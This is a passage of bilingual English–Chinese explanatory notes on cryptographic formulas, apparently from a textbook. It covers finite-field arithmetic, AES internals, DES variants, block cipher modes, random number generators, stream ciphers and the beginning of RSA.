- Compute \(r_1=a\bmod b\), then \(r_2=b\bmod r_1\), and so on. The last nonzero remainder is the gcd.依次计算 \(r_1=a\bmod b\)、\(r_2=b\bmod r_1\)，依此类推。最后一个非零余式就是最大公因式。
\[x\cdot f(x)=\begin{cases}(b_6b_5b_4b_3b_2b_1b_00)&b_7=0\\(b_6b_5b_4b_3b_2b_1b_00)\oplus(00011011)&b_7=1\end{cases}\]
- \(f(x)\): a byte seen as the polynomial \(b_7x^7+\dots+b_1x+b_0\); \(b_7,\dots,b_0\) are its bits, and \(b_7\) is the top bit\(f(x)\)：看作多项式 \(b_7x^7+\dots+b_1x+b_0\) 的一个字节；\(b_7,\dots,b_0\) 是它的各位，\(b_7\) 是最高位
- \(x\cdot f(x)\): the product, again a byte. The bit string \((b_6\dots b_00)\) is \(f\) shifted left by one place.\(x\cdot f(x)\)：乘积，仍是一个字节。位串 \((b_6\dots b_00)\) 就是 \(f\) 左移一位的结果。
- \(\oplus\): bitwise XOR. The constant \(00011011\) is \(\{\mathrm{1B}\}\).\(\oplus\)：按位 XOR。常数 \(00011011\) 为 \(\{\mathrm{1B}\}\)。
\[r_i=r_{i-2}-q_i\,r_{i-1},\qquad w_i=w_{i-2}-q_i\,w_{i-1}\]
- \(m(x)\): the irreducible modulus; \(b(x)\): the nonzero element whose inverse we want\(m(x)\)：不可约模多项式；\(b(x)\)：要求逆元的非零元
- \(r_i\): the remainder in step \(i\); \(q_i\): the quotient of \(r_{i-2}\) by \(r_{i-1}\); \(w_i\): the tracked coefficient polynomial\(r_i\)：第 \(i\) 步中的余式；\(q_i\)：\(r_{i-2}\) 除以 \(r_{i-1}\) 的商；\(w_i\)：跟踪的系数多项式
- Start with \(r_{-1}=m(x)\), \(r_0=b(x)\), \(w_{-1}=0\), \(w_0=1\).从 \(r_{-1}=m(x)\)、\(r_0=b(x)\)、\(w_{-1}=0\)、\(w_0=1\) 开始。
- When \(r_i=1\), then \(w_i=b^{-1}\bmod m\), because \(m\,v+b\,w_i=1\) for some polynomial \(v\). Over \(\mathrm{GF}(2)\) subtraction is XOR.当 \(r_i=1\) 时，有 \(w_i=b^{-1}\bmod m\)，因为对某个多项式 \(v\) 有 \(m\,v+b\,w_i=1\)。在 \(\mathrm{GF}(2)\) 上，减法即 XOR。
\[g^a\cdot g^b=g^{(a+b)\bmod(2^n-1)},\qquad (g^a)^{-1}=g^{(2^n-1-a)\bmod(2^n-1)}\]
- \(g\): a generator of \(\mathrm{GF}(2^n)\), a root of a primitive polynomial of degree \(n\)\(g\)：\(\mathrm{GF}(2^n)\) 的生成元，是次数为 \(n\) 的本原多项式的根
- \(a\), \(b\): whole-number exponents; \(n\): the degree of the field, so \(2^n-1\) is the number of nonzero elements (\(7\) for \(n=3\))\(a\)、\(b\)：整数指数；\(n\)：域的次数，因此 \(2^n-1\) 为非零元的个数（对 \(n=3\) 来说为 \(7\)）
- Multiplication becomes addition of exponents. Addition still uses the binary form (XOR).乘法变为指数相加。加法仍然使用二进制形式（XOR）。
Chapter 6 Advanced Encryption Standard (AES)
\[N_r=N_k+6,\qquad W=4(N_r+1)\]
- \(N_k\): key length in 32-bit words, 4, 6 or 8 (a key of 128 bits is 4 words)\(N_k\)：以 32 位字为单位的密钥长度，为 4、6 或 8（128 位密钥为 4 个字）
- \(N_r\): the number of rounds, 10, 12 or 14\(N_r\)：轮数，为 10、12 或 14
- \(N_r+1\): the number of round keys, one for the initial AddRoundKey and one for each round\(N_r+1\)：轮密钥的个数，初始 AddRoundKey 用一个，每一轮各用一个
- \(W\): the number of 32-bit words of the expanded key; each round key is 4 words\(W\)：扩展密钥的 32 位字数；每个轮密钥为 4 个字
- Bytes of the expanded key: \(4W\), for example 176 bytes for AES-128扩展密钥的字节数：\(4W\)，例如 AES-128 为 176 字节
\[\{02\}\cdot a=\begin{cases}a\ll1 & a_7=0\\(a\ll1)\oplus\{1B\} & a_7=1\end{cases}\]
- \(a\): a byte \((a_7a_6\dots a_0)\); \(a_7\) is its leftmost bit\(a\)：字节 \((a_7a_6\dots a_0)\)；\(a_7\) 是它的最左位
- \(a\ll1\): \(a\) shifted left by one bit; the leftmost bit is dropped and a 0 is appended\(a\ll1\)：\(a\) 左移一位；最左位被丢弃，末尾补 0
- \(\{1B\}\): the byte 00011011, the polynomial \(m(x)\) without its \(x^8\) term, because \(x^8\equiv x^4+x^3+x+1\) modulo \(m(x)\)\(\{1B\}\)：字节 00011011，即去掉 \(x^8\) 项后的多项式 \(m(x)\)，因为 \(x^8\equiv x^4+x^3+x+1\) 模 \(m(x)\)
- \(\{03\}\cdot a=(\{02\}\cdot a)\oplus a\); any other constant is a XOR of repeated doublings\(\{03\}\cdot a=(\{02\}\cdot a)\oplus a\)；任何其他常数都是若干次倍乘结果的 XOR
\[b'=b\oplus\text{ROTL}_1(b)\oplus\text{ROTL}_2(b)\oplus\text{ROTL}_3(b)\oplus\text{ROTL}_4(b)\oplus\{63\}\]
- \(b\): the byte after the inverse step (the input of the affine map); \(b'\): the output byte, S(input byte)\(b\)：逆变换步骤之后的字节（即仿射变换的输入）；\(b'\)：输出字节，即 S(输入字节)
- \(\text{ROTL}_n(b)\): \(b\) rotated left by \(n\) bits; a bit that leaves on the left re-enters on the right\(\text{ROTL}_n(b)\)：\(b\) 循环左移 \(n\) 位；从左端移出的位从右端重新移入
- {63} = 01100011: a constant that removes the fixed points of the S-box{63} = 01100011：一个常数，用来消除 S 盒的不动点
- InvSubBytes undoes the two steps in reverse order: the inverse affine map first, then the GF(\(2^8\)) inverseInvSubBytes 按相反的顺序撤销两个步骤：先作用逆仿射变换，再作用 GF(\(2^8\)) 中的逆
\[s'_{r,c}=s_{r,(c+r)\bmod 4},\qquad r,c=0,\dots,3\]
- \(s_{r,c}\): the byte in row \(r\) and column \(c\) of the State before the stage; \(s'_{r,c}\): the same position after it\(s_{r,c}\)：该步骤之前状态数组中第 \(r\) 行第 \(c\) 列的字节；\(s'_{r,c}\)：该步骤之后同一位置的字节
- \(r\): the row number and the number of positions that the row moves; \(c\): the column number\(r\)：行号，以及该行移动的位置数；\(c\)：列号
- Row 0 stays; 12 of the 16 bytes change position第 0 行保持不动；16 个字节中有 12 个改变位置
\[\begin{bmatrix}s'_{0,j}\\s'_{1,j}\\s'_{2,j}\\s'_{3,j}\end{bmatrix}=\begin{bmatrix}02&03&01&01\\01&02&03&01\\01&01&02&03\\03&01&01&02\end{bmatrix}\begin{bmatrix}s_{0,j}\\s_{1,j}\\s_{2,j}\\s_{3,j}\end{bmatrix}\]
- \(s_{r,j}\): the byte in row \(r\) of column \(j\) before the stage; \(s'_{r,j}\): the same byte after it; \(j\): the column number, 0 to 3\(s_{r,j}\)：该步骤之前第 \(r\) 行第 \(j\) 列的字节；\(s'_{r,j}\)：该步骤之后的同一字节；\(j\)：列号，为 0 到 3
- Products are products in GF(\(2^8\)) and sums are XOR: \(s'_{0,j}=(\{02\}\cdot s_{0,j})\oplus(\{03\}\cdot s_{1,j})\oplus s_{2,j}\oplus s_{3,j}\)乘积是 GF(\(2^8\)) 中的乘积，和是 XOR：\(s'_{0,j}=(\{02\}\cdot s_{0,j})\oplus(\{03\}\cdot s_{1,j})\oplus s_{2,j}\oplus s_{3,j}\)
- Each row of the matrix is the row above it shifted right by one place矩阵的每一行都是上一行右移一位的结果
- InvMixColumns uses the matrix with rows (0E 0B 0D 09), (09 0E 0B 0D), (0D 09 0E 0B), (0B 0D 09 0E); the two matrices multiply to the identityInvMixColumns 使用的矩阵各行为 (0E 0B 0D 09)、(09 0E 0B 0D)、(0D 09 0E 0B)、(0B 0D 09 0E)；这两个矩阵相乘得到单位矩阵
\[w[i]=\begin{cases}w[i-4]\oplus w[i-1] & i\bmod 4\neq0\\ w[i-4]\oplus\text{SubWord}(\text{RotWord}(w[i-1]))\oplus\text{Rcon}[i/4] & i\bmod 4=0\end{cases}\qquad i=4,\dots,43\]
- \(w[i]\): word number \(i\) of the expanded key, 4 bytes; \(i\): its index\(w[i]\)：扩展密钥中第 \(i\) 个字，共 4 字节；\(i\)：它的下标
- \(i\bmod 4\): the remainder of \(i\) divided by 4; it is 0 for \(i=4,8,12,\dots\)\(i\bmod 4\)：\(i\) 除以 4 的余数；对于 \(i=4,8,12,\dots\) 它为 0
- RotWord, SubWord, Rcon: the three parts of the function \(g\) (next step)RotWord、SubWord、Rcon：函数 \(g\) 的三个部分（见下一步）
- The first four words are the key. Round \(r\) uses \(w[4r],\dots,w[4r+3]\).前四个字就是密钥。第 \(r\) 轮使用 \(w[4r],\dots,w[4r+3]\)。
\[RC[1]=\{01\},\qquad RC[j]=\{02\}\cdot RC[j-1]\ \text{in GF}(2^8)\]
- \(RC[j]\): the constant byte of round \(j\), with \(j=1,\dots,10\)\(RC[j]\)：第 \(j\) 轮的常数字节，满足 \(j=1,\dots,10\)
- \(\text{Rcon}[j]\): the word \((RC[j],0,0,0)\)\(\text{Rcon}[j]\)：字 \((RC[j],0,0,0)\)
- \(RC[1],\dots,RC[10]\) = 01, 02, 04, 08, 10, 20, 40, 80, 1B, 36. After {80} the doubling wraps: \(\{02\}\cdot\{80\}=\{1B\}\).\(RC[1],\dots,RC[10]\) = 01、02、04、08、10、20、40、80、1B、36。{80} 之后倍乘发生回绕：\(\{02\}\cdot\{80\}=\{1B\}\)。
\[\text{InvMixColumns}(S\oplus w)=\text{InvMixColumns}(S)\oplus\text{InvMixColumns}(w)\]
- \(S\): a column of the State; \(w\): the round-key word that is XORed to it\(S\)：状态数组的一列；\(w\)：与它做 XOR 的轮密钥字
- \(\text{InvMixColumns}(w)\): the transformed key word that the swapped decryption round must add\(\text{InvMixColumns}(w)\)：交换后的解密轮必须加入的经变换的密钥字
- Only the round keys of rounds 1 to \(N_r-1\) are transformed (AES-128: \(w[4],\dots,w[39]\)). The first and last AddRoundKey are not swapped with InvMixColumns, so their keys stay unchanged.只有第 1 轮到第 \(N_r-1\) 轮的轮密钥需要变换（AES-128 中为 \(w[4],\dots,w[39]\)）。第一次和最后一次 AddRoundKey 不与 InvMixColumns 交换，因此它们的密钥保持不变。
\[\begin{bmatrix}e_{0,j}\\e_{1,j}\\e_{2,j}\\e_{3,j}\end{bmatrix}=T_0[a_{0,j}]\oplus T_1[a_{1,j+1}]\oplus T_2[a_{2,j+2}]\oplus T_3[a_{3,j+3}]\oplus\begin{bmatrix}k_{0,j}\\k_{1,j}\\k_{2,j}\\k_{3,j}\end{bmatrix}\]
- \(a_{r,c}\): the byte in row \(r\) and column \(c\) of the State before the round; \(e_{r,j}\): the byte in row \(r\) and column \(j\) after the round\(a_{r,c}\)：该轮之前状态数组中第 \(r\) 行第 \(c\) 列的字节；\(e_{r,j}\)：该轮之后第 \(r\) 行第 \(j\) 列的字节
- \(k_{r,j}\): the byte of the round key in row \(r\) and column \(j\); \(j\): the column of the result; column indices are taken modulo 4\(k_{r,j}\)：轮密钥中第 \(r\) 行第 \(j\) 列的字节；\(j\)：结果的列；列下标按模 4 取值
- \(T_n[x]\): a table entry, the S-box output \(S[x]\) times column \(n\) of the MixColumns matrix; for example \(T_0[x]=S[x]\cdot(02,01,01,03)^{T}\)\(T_n[x]\)：表中的一项，即 S 盒输出 \(S[x]\) 乘以 MixColumns 矩阵的第 \(n\) 列；例如 \(T_0[x]=S[x]\cdot(02,01,01,03)^{T}\)
- Each of the four tables has 256 words of 4 bytes, so \(4\times256\times4=4096\) bytes. Each column needs 4 lookups and 4 XORs, so a round needs 16 lookups and 16 XORs.四张表每张都有 256 个 4 字节的字，共 \(4\times256\times4=4096\) 字节。每一列需要 4 次查表和 4 次 XOR，因此一轮需要 16 次查表和 16 次 XOR。
Chapter 7 Multiple Encryption and Block Cipher Modes
\[C=E(K_2,E(K_1,P))\qquad P=D(K_1,D(K_2,C))\]
- \(P\): the plaintext block; \(C\): the ciphertext block\(P\)：明文分组；\(C\)：密文分组
- \(E\): the encryption function of the block cipher; \(D\): its decryption function\(E\)：分组密码的加密函数；\(D\)：其解密函数
- \(K_1\) and \(K_2\): two independent keys of 56 bits each for DES\(K_1\) 和 \(K_2\)：DES 的两把相互独立的 56 位密钥
- Decryption applies the keys in reverse order. The key length seems to be \(2\times56=112\) bits.解密时密钥的使用顺序相反。密钥长度看起来是 \(2\times56=112\) 位。
\[N_{\text{false}}\approx2^{2k-tm}\]
- \(N_{\text{false}}\): the expected number of wrong key pairs that match all known pairs\(N_{\text{false}}\)：与所有已知对都吻合的错误密钥对的期望数量
- \(k\): key bits of one stage, for example 56 for DES\(k\)：单一阶段的密钥位数，例如 DES 为 56
- \(m\): block size in bits, for example 64 for DES\(m\)：分组长度（位），例如 DES 为 64
- \(t\): number of known pairs used\(t\)：所用已知对的数量
- The attack needs about \(2^{k+1}\) cipher operations and a table of \(2^k\) entries.这种攻击需要约 \(2^{k+1}\) 次密码运算，以及一张有 \(2^k\) 项的表。
\[C=E(K_3,D(K_2,E(K_1,P)))\qquad P=D(K_1,E(K_2,D(K_3,C)))\]
- \(P\), \(C\): plaintext and ciphertext block; \(E\), \(D\): encryption and decryption of DES\(P\)、\(C\)：明文分组和密文分组；\(E\)、\(D\)：DES 的加密与解密
- \(K_1\), \(K_2\), \(K_3\): the three keys of 56 bits each. Three-key 3DES uses independent keys (168 key bits). Two-key 3DES sets \(K_3=K_1\) (112 key bits).\(K_1\)、\(K_2\)、\(K_3\)：三把各 56 位的密钥。三密钥 3DES 使用相互独立的密钥（共 168 位）。两密钥 3DES 令 \(K_3=K_1\)（共 112 位）。
- The middle decryption has no cryptographic role. If all keys are equal, the inner \(E\) and \(D\) cancel and the device computes single DES. This gives compatibility.中间的解密步骤在密码学上没有作用。若三把密钥全部相等，内层的 \(E\) 与 \(D\) 相互抵消，设备实际计算的就是单重 DES。这样就保证了兼容性。
\[W\approx\frac{2^{64}}{n}\cdot2^{56}=2^{120-\log_2n}\]
- \(W\): the work of the attack, in cipher operations\(W\)：攻击的工作量，以密码运算次数计
- \(n\): the number of known plaintext–ciphertext pairs; for example \(n=2^{40}\) gives \(W=2^{80}\)\(n\)：已知明文-密文对的数量；例如 \(n=2^{40}\) 给出 \(W=2^{80}\)
- \(2^{64}\): the number of values of the guessed block \(A\) (64-bit block); \(2^{56}\): the cost of the meet-in-the-middle step after each guess\(2^{64}\)：猜测的分组 \(A\)（64 位分组）的取值个数；\(2^{56}\)：每次猜测之后中间相遇一步的代价
\[C_j=E(K,P_j)\qquad P_j=D(K,C_j)\qquad j=1,\dots,N\]
- \(P_j\), \(C_j\): the \(j\)-th plaintext and ciphertext block; \(N\): the number of blocks of the message\(P_j\)、\(C_j\)：第 \(j\) 个明文分组和密文分组；\(N\)：消息的分组数
- \(E\), \(D\): encryption and decryption of the block cipher; \(K\): the secret key\(E\)、\(D\)：分组密码的加密与解密；\(K\)：秘密密钥
- Every block uses the same key and no other input.每个分组只使用同一把密钥，不使用其他输入。
\[C_j=E(K,P_j\oplus C_{j-1})\qquad P_j=D(K,C_j)\oplus C_{j-1}\qquad C_0=\mathrm{IV}\]
- \(P_j\), \(C_j\): the \(j\)-th plaintext and ciphertext block; \(E\), \(D\): encryption and decryption; \(K\): the key\(P_j\)、\(C_j\)：第 \(j\) 个明文分组和密文分组；\(E\)、\(D\)：加密与解密；\(K\)：密钥
- \(C_{j-1}\): the previous ciphertext block, which masks \(P_j\) before encryption; for \(j=1\) it is the initialization vector \(\mathrm{IV}\), one block long\(C_{j-1}\)：前一个密文分组，它在加密前掩盖 \(P_j\)；当 \(j=1\) 为第一个分组时，它是长度为一个分组的初始向量 \(\mathrm{IV}\)
- Decryption works because \(D(K,C_j)=P_j\oplus C_{j-1}\), and XOR with \(C_{j-1}\) removes the mask.解密之所以成立，是因为 \(D(K,C_j)=P_j\oplus C_{j-1}\)，而与 \(C_{j-1}\) 异或即可去掉掩码。
\[\begin{aligned}I_1&=\mathrm{IV},\quad I_j=\mathrm{LSB}_{b-s}(I_{j-1})\,\Vert\,C_{j-1}\\O_j&=E(K,I_j)\\C_j&=P_j\oplus\mathrm{MSB}_s(O_j),\quad P_j=C_j\oplus\mathrm{MSB}_s(O_j)\end{aligned}\]
- \(b\): block size in bits (64 for DES); \(s\): segment size in bits, for example 8; \(P_j\), \(C_j\): the \(j\)-th plaintext and ciphertext segment of \(s\) bits\(b\)：分组长度（位，DES 为 64）；\(s\)：分段长度（位），例如 8；\(P_j\)、\(C_j\)：第 \(j\) 个明文分段和密文分段，每段 \(s\) 位
- \(I_j\): the input register of step \(j\), \(b\) bits, which starts as \(\mathrm{IV}\); \(O_j\): the cipher output of step \(j\); \(E\): encryption; \(K\): the key\(I_j\)：第 \(j\) 步的输入寄存器，长 \(b\) 位，初始值为 \(\mathrm{IV}\)；\(O_j\)：第 \(j\) 步的密码输出；\(E\)：加密；\(K\)：密钥
- \(\mathrm{MSB}_s\): the leftmost \(s\) bits; \(\mathrm{LSB}_{b-s}\): the rightmost \(b-s\) bits; \(\Vert\): concatenation of bit strings\(\mathrm{MSB}_s\)：最左边的 \(s\) 位；\(\mathrm{LSB}_{b-s}\)：最右边的 \(b-s\) 位；\(\Vert\)：位串的拼接
- Each step shifts the register left by \(s\) bits and puts \(C_{j-1}\) into its right end.每一步把寄存器左移 \(s\) 位，并把 \(C_{j-1}\) 放入它的右端。
\[\text{damaged segments}=1+\frac{b}{s}\]
- \(b\): block size in bits; \(s\): segment size in bits; the left side counts the damaged segments of plaintext\(b\)：分组长度（位）；\(s\)：分段长度（位）；等式左侧统计被破坏的明文分段数
- The first is the segment with the flipped bit, and the other \(b/s\) are garbled.第一个是出现翻转位的分段，其他 \(b/s\) 个分段被破坏。
- DES with \(s=8\): \(1+64/8=9\) bytes. AES with \(s=8\): \(1+128/8=17\) bytes. Full-block CFB (\(s=b\)): 2 blocks.DES 在 \(s=8\) 模式下：\(1+64/8=9\) 字节。AES 在 \(s=8\) 模式下：\(1+128/8=17\) 字节。全分组 CFB（\(s=b\)）：2 个分组。
\[I_1=\text{Nonce},\quad I_j=O_{j-1},\quad O_j=E(K,I_j),\quad C_j=P_j\oplus O_j,\quad P_j=C_j\oplus O_j\]
- \(I_j\): the cipher input of step \(j\); \(O\) with an index is a cipher output, so \(O_j\) is the output of step \(j\) and also the keystream block\(I_j\)：第 \(j\) 步的密码输入；\(O\) 带下标时是密码输出，因此 \(O_j\) 是第 \(j\) 步的输出，也是密钥流分组
- \(P_j\), \(C_j\): the \(j\)-th plaintext and ciphertext block; \(E\): encryption; \(K\): the key\(P_j\)、\(C_j\)：第 \(j\) 个明文分组和密文分组；\(E\)：加密；\(K\)：密钥
- Nonce: a block that is used only once under one key一次性随机数：在同一把密钥下只使用一次的分组
- A last partial block of \(u\) bits uses \(\mathrm{MSB}_u(O_N)\), the leftmost \(u\) bits of the last output \(O_N\), and the other bits are discarded. No padding is needed.最后一个不完整的分组（长 \(u\) 位）使用 \(\mathrm{MSB}_u(O_N)\)，即最后一个输出 \(O_N\) 的最左边 \(u\) 位，其余位丢弃。不需要填充。
\[C_j=P_j\oplus E(K,T_j)\qquad P_j=C_j\oplus E(K,T_j)\]
- \(P_j\), \(C_j\): the \(j\)-th plaintext and ciphertext block; \(E\): encryption of the block cipher; \(K\): the key\(P_j\)、\(C_j\)：第 \(j\) 个明文分组和密文分组；\(E\)：分组密码的加密；\(K\)：密钥
- \(T_j\): the \(j\)-th counter block of \(b\) bits, for example \(T_1,T_1+1,T_1+2,\dots\)\(T_j\)：第 \(j\) 个计数器分组（长 \(b\) 位），例如 \(T_1,T_1+1,T_1+2,\dots\)
- A last partial block of \(u\) bits is XORed with the leftmost \(u\) bits of \(E(K,T_N)\), where \(T_N\) is the last counter. No padding is needed.最后一个不完整的分组（长 \(u\) 位）与 \(E(K,T_N)\) 的最左边 \(u\) 位异或，其中 \(T_N\) 是最后一个计数器。不需要填充。
\[T=E(K_2,i)\otimes\alpha^{j}\qquad C=E(K_1,P\oplus T)\oplus T\qquad P=D(K_1,C\oplus T)\oplus T\]
- \(P\), \(C\): a 128-bit plaintext and ciphertext block; \(T\): the tweak of this block; \(E\), \(D\): AES encryption and decryption\(P\)、\(C\)：128 位的明文分组和密文分组；\(T\)：这个分组的调整值；\(E\)、\(D\)：AES 的加密与解密
- \(K_1\) and \(K_2\): two AES keys of equal size; the XTS key is \(K_1\Vert K_2\)\(K_1\) 和 \(K_2\)：两把长度相同的 AES 密钥；XTS 密钥为 \(K_1\Vert K_2\)
- \(i\): the tweak of the data unit, its sector number; \(j\): the index of the 128-bit block inside the sector\(i\)：数据单元的调整值，即其扇区号；\(j\)：扇区内 128 位分组的索引
- \(\alpha\): the constant \(x\), a primitive element of the field \(GF(2^{128})\) (Section 5.4); \(\otimes\): multiplication in this field\(\alpha\)：常数 \(x\)，即域 \(GF(2^{128})\) 的一个本原元（见第 5.4 节）；\(\otimes\)：在这个域中的乘法
\[N_{\text{pairs}}=\frac{n(n-1)}{2}\]
- \(N_{\text{pairs}}\): the number of keys needed when every pair of hosts has its own key\(N_{\text{pairs}}\)：当每对主机各自拥有一把密钥时所需的密钥数
- \(n\): the number of hosts; each host has \(n-1\) partners, and each pair is counted once, hence the division by 2\(n\)：主机数；每台主机有 \(n-1\) 个伙伴，每对只计一次，因此要除以 2
- With a KDC only \(n\) permanent keys are needed. Example: \(n=1000\) gives 499,500 keys against 1,000.使用 KDC 时只需要 \(n\) 个长期密钥。例如：\(n=1000\) 对应 499,500 把密钥，而 KDC 方式只需 1,000 个。
Chapter 8 Random Bit Generation and Stream Ciphers
\[X_{n+1}=(aX_n+c)\bmod m\]
- \(X_n\): the \(n\)-th output, an integer from \(0\) to \(m-1\); \(X_0\) is the seed, with \(0\le X_0<m\)\(X_n\)：第 \(n\) 个输出，是从 \(0\) 到 \(m-1\) 之间的整数；\(X_0\) 是种子，满足 \(0\le X_0<m\)
- \(m\): the modulus, \(m>0\), typically near the largest machine integer, for example \(2^{31}-1\)\(m\)：模数 \(m>0\)，通常接近机器整数的最大值，例如 \(2^{31}-1\)
- \(a\): the multiplier, \(0<a<m\); \(c\): the increment, \(0\le c<m\)\(a\)：乘数 \(0<a<m\)；\(c\)：增量 \(0\le c<m\)
- The sequence repeats after at most \(m\) terms. This length is its period.序列至多在 \(m\) 项之后重复。这个长度称为周期。
\[a\equiv(X_2-X_1)(X_1-X_0)^{-1}\pmod m,\qquad c\equiv X_1-aX_0\pmod m\]
- \(X_0,X_1,X_2\): three consecutive observed outputs\(X_0,X_1,X_2\)：三个连续观察到的输出
- \(m\): the known modulus; \(a\) and \(c\): the multiplier and increment to be found\(m\)：已知的模数；\(a\) 和 \(c\)：待求的乘数和增量
- \((X_1-X_0)^{-1}\): the inverse of \(X_1-X_0\) modulo \(m\). It exists if \(\gcd(X_1-X_0,m)=1\), which holds for every prime \(m\) when \(X_1\ne X_0\).\((X_1-X_0)^{-1}\)：\(X_1-X_0\) 模 \(m\) 的逆元。它存在的条件是 \(\gcd(X_1-X_0,m)=1\)；若 \(X_1\ne X_0\)，则该条件对每个素数 \(m\) 都成立。
- Reason: subtracting \(X_1=aX_0+c\) from \(X_2=aX_1+c\) eliminates \(c\).理由：用 \(X_1=aX_0+c\) 减去 \(X_2=aX_1+c\) 可以消去 \(c\)。
\[X_0=s^2\bmod n,\qquad X_i=X_{i-1}^2\bmod n,\qquad B_i=X_i\bmod 2\quad(i\ge1)\]
- \(p,q\): the two secret primes, both \(\equiv3\pmod4\), for example 383 and 503\(p,q\)：两个秘密素数，都是 \(\equiv3\pmod4\)，例如 383 和 503
- \(n\): the modulus \(pq\); it may be public (here \(192649\))\(n\)：模数 \(pq\)；它可以公开（这里为 \(192649\)）
- \(s\): the seed, relatively prime to \(n\); \(X_i\): the \(i\)-th internal value\(s\)：种子，与 \(n\) 互素；\(X_i\)：第 \(i\) 个内部值
- \(B_i\): the \(i\)-th output bit, the least significant bit, so 1 for an odd \(X_i\) and 0 for an even one\(B_i\)：第 \(i\) 个输出比特，即最低有效位，所以对于奇数 \(X_i\) 为 1，对于偶数为 0
\[\text{seedlen}=\text{outlen}+\text{keylen},\qquad \text{output between reseeds}=\text{reseed\_interval}\times\text{outlen}\]
- outlen: block size of the cipher in bits, for example 128 for AESoutlen：分组密码的分组长度（比特），例如 AES 为 128
- keylen: key size in bits, for example 192 for AES-192keylen：密钥长度（比特），例如 AES-192 为 192
- seedlen: the number of entropy bits needed for one seed or reseed, for example \(128+192=320\)seedlen：一个种子或一次重新播种所需的熵比特数，例如 \(128+192=320\)
- reseed_interval: the maximum number of output blocks per seed, for example \(2^{48}\) for AESreseed_interval：每个种子允许生成的最大输出分组数，例如 AES 为 \(2^{48}\)
- The second quantity is in bits, for example \(2^{48}\cdot128=2^{55}\) bits.第二个量的单位是比特，例如 \(2^{48}\cdot128=2^{55}\) 比特。
\[s_{i+1}=f(s_i),\qquad z_i=g(s_i),\qquad c_i=p_i\oplus z_i,\qquad p_i=c_i\oplus z_i\]
- \(s_i\): the secret internal state at step \(i\); the initial state \(s_0\) is set from the key \(K\) and, in some ciphers, the IV\(s_i\)：第 \(i\) 步的秘密内部状态；初始状态 \(s_0\) 由密钥 \(K\) 设定，在某些密码中还与 IV 有关
- \(f\): the next-state function; \(g\): the output function; \(z_i\): the keystream byte at step \(i\)\(f\)：下一状态函数；\(g\)：输出函数；\(z_i\)：第 \(i\) 步的密钥流字节
- \(p_i\): the plaintext byte; \(c_i\): the ciphertext byte\(p_i\)：明文字节；\(c_i\)：密文字节
- Encryption and decryption are the same XOR with the same keystream.加密与解密是使用同一密钥流的相同异或运算。
\[B_n=A_1B_{n-1}\oplus A_2B_{n-2}\oplus\cdots\oplus A_nB_0\]
- \(n\): the number of cells; \(B_{n-1},\dots,B_0\): the bits in the cells, with \(B_0\) the output bit\(n\)：单元的个数；\(B_{n-1},\dots,B_0\)：各单元中的比特，其中 \(B_0\) 为输出比特
- \(B_n\): the new bit that enters at the left\(B_n\)：从左端移入的新比特
- \(A_i\in\{0,1\}\): tap constants; \(A_i=1\) means the cell \(B_{n-i}\) is wired into the XOR\(A_i\in\{0,1\}\)：抽头常数；\(A_i=1\) 表示单元 \(B_{n-i}\) 接入异或运算
- Period: at most \(2^n-1\), because the all-zero state maps to itself.周期至多为 \(2^n-1\)，因为全零状态会映射到它自己。
\[C=\left\lceil 1+\frac{-\log_2 W}{H}\right\rceil\]
- \(C\): the cutoff, the run length of identical samples that raises the alarm\(C\)：截断值，即触发报警所需的相同样本的连续次数
- \(W\): the acceptable false-positive probability, for example \(2^{-30}\)\(W\)：可接受的误报概率，例如 \(2^{-30}\)
- \(H\): the assessed min-entropy per sample, in bits, for example 7.3\(H\)：每个样本的评估最小熵（比特），例如 7.3
- Reason: \(C\) identical samples in a row have probability at most \(2^{-H(C-1)}\). The cutoff is the smallest \(C\) with \(W\ge2^{-H(C-1)}\).理由：连续 \(C\) 个相同样本出现的概率至多为 \(2^{-H(C-1)}\)。截断值 \(C\) 是满足 \(W\ge2^{-H(C-1)}\) 的最小值。
Chapter 9 Public-Key Cryptography and RSA
\[Y=E(PU_b,X)\qquad X=D(PR_b,Y)\]
- \(X\) is the plaintext, \(Y\) the ciphertext, \(E\) and \(D\) the algorithms; \(PU_b\) and \(PR_b\) are Bob's public and private keys.\(X\) 为明文，\(Y\) 为密文，\(E\) 与 \(D\) 为算法；\(PU_b\) 与 \(PR_b\) 分别为 Bob 的公钥与私钥。
- Anyone can encrypt for Bob; only Bob can decrypt.任何人都可以为 Bob 加密；只有 Bob 能解密。
\[Y=E(PR_a,X)\qquad X=D(PU_a,Y)\]
- \(X\): the plaintext; \(Y\): the ciphertext, which serves as the signature; \(E\) and \(D\): the encryption and decryption algorithms\(X\)：明文；\(Y\)：密文，此时它充当签名；\(E\) 和 \(D\)：加密算法和解密算法
- \(PR_a\): Alice's private key; \(PU_a\): Alice's public key\(PR_a\)：Alice 的私钥；\(PU_a\)：Alice 的公钥
- Only Alice knows \(PR_a\), so only she can have produced \(Y\), and nobody can alter it undetected. The ciphertext is a digital signature（数字签名）that proves origin and integrity.只有 Alice 知道 \(PR_a\)，因此只有她能够产生 \(Y\)，且无人能在不被发现的情况下篡改它。该密文是一个数字签名，可证明来源与完整性。
- It gives no confidentiality: anyone can decrypt \(Y\) with \(PU_a\).它不提供机密性：任何人都可以用 \(PU_a\) 解密 \(Y\)。
\[Z=E(PU_b,E(PR_a,X))\qquad X=D(PU_a,D(PR_b,Z))\]
- \(X\): the plaintext; \(Z\): the final ciphertext sent to Bob; \(E\) and \(D\): the encryption and decryption algorithms\(X\)：明文；\(Z\)：最终发送给 Bob 的密文；\(E\) 和 \(D\)：加密算法和解密算法
- \(PR_a\), \(PU_a\): Alice's private and public key; \(PU_b\), \(PR_b\): Bob's public and private key\(PR_a\)、\(PU_a\)：Alice 的私钥和公钥；\(PU_b\)、\(PR_b\)：Bob 的公钥和私钥
- The inner operation is Alice's signature; the outer one gives confidentiality for Bob.内层操作是 Alice 的签名；外层操作则为 Bob 提供机密性。
- The costly public-key algorithm runs four times instead of two.代价高的公钥算法运行四次，而非两次。
\[n=pq\qquad \phi(n)=(p-1)(q-1)\qquad ed\equiv1 \pmod{\phi(n)}\]
- \(p\) and \(q\): two different secret primes, for example 17 and 11\(p\) 和 \(q\)：两个不同的秘密素数，例如 17 和 11
- \(n\): the modulus, the product of \(p\) and \(q\); it is public (here 187)\(n\)：模数，即 \(p\) 与 \(q\) 的乘积；它是公开的（此例中为 187）
- \(\phi(n)\): Euler's totient of \(n\), the count of numbers below \(n\) coprime to it (here \(16\cdot10=160\)); it must stay secret\(\phi(n)\)：\(n\) 的欧拉函数，即小于 \(n\) 且与它互素的数的个数（此例中为 \(16\cdot10=160\)）；它必须保密
